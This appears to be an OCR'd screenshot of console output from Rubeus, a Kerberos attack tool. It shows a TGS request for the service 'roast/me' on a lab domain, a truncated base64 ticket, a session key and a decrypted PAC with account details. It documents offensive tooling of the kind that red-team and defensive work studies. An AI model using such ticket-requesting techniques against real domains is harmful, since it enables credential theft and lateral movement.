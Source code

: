       v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIF6jCCBeagAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          AgECoQ0wCxsFcm9hc3QbAm1l

      ServiceName              :  roast/me
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  20/07/2021 00:02:27
      EndTime                  :  20/07/2021 09:57:46
      RenewTill                :  26/07/2021 23:57:46
      Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
      KeyType                  :  aes256_cts_hmac_sha1
      Base64(key)              :  U9Vnk0QnOmByQqF7i+5ujkinm9pRrevcRhw1sKVEVi4=
      Decrypted PAC            :
        LogonInfo              :
          LogonTime            : 19/07/2021 23:00:38
          LogoffTime           :
          KickOffTime          :
          PasswordLastSet      : 14/07/2021 02:07:12
          PasswordCanChange    : 15/07/2021 02:07:12
          PasswordMustChange   :
          EffectiveName        : harmj0y
          FullName             : Harm J0y
          LogonScript          :
          ProfilePath          :
          HomeDirectory        :
          HomeDirectoryDrive   :
          LogonCount           : 8
          BadPasswordCount     : 0
          UserId               : 1106
          PrimaryGroupId       : 513
          GroupCount           : 1
          Groups               : 513
          UserFlags            : (32) EXTRA_SIDS
          UserSessionKey       : 0000000000000000
          LogonServer          : PDC1
          LogonDomainName      : RUBEUS
          LogonDomainId        : S-1-5-21-3237111427-1607930709-3979055039
          UserAccountControl   : (528) NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
          ExtraSIDCount        : 1
          ExtraSIDs            : S-1-18-1
          ResourceGroupCount   : 0
        CredentialInfo         :
          Version              : 0
          EncryptionType       : rc4_hmac
          CredentialData    :   *** NO KEY ***
        ClientName             :
          Client Id            : 19/07/2021 23:57:46
          Client Name          : harmj0y
        UpnDns                 :
          DNS Domain Name      : RUBEUS.GHOSTPACK.LOCAL
          UPN                  : harmj0y@rubeus.ghostpack.local
          Flags                : 0
        ServerChecksum         :